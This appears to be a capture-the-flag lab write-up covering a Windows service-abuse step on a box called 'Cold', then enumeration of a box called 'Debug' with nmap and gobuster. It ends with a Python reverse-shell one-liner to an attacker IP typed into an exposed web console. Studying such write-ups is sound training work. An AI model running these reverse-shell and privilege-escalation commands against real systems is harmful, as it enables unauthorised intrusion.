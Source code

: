 ```
wmic service cold call startservice
```
Now on our listener we should have a shell as system:
```
C:\Windows\system32>whoami && hostname

nt authority\system
Cold
```

## DEBUG

### NMAP
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 15:20 BST
Nmap scan report for 172.31.1.5
Host is up (0.098s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.36 seconds
```

After seeing there is 2 ports on the box, I ran gobuster on port 80:
```
gobuster dir -u http://172.31.1.5/ -w /opt/SecLists/Discovery/Web-Content/big.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://172.31.1.5/
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/12 15:21:56 Starting gobuster
===============================================================
/about (Status: 200)
/blog (Status: 200)
/console (Status: 200)
/contact (Status: 200)
```
From this, we see an interesting "console" directory which when visited shows a python console that we can use to get a shell on the box:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.64",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Now we have a shell on the box as "megan".
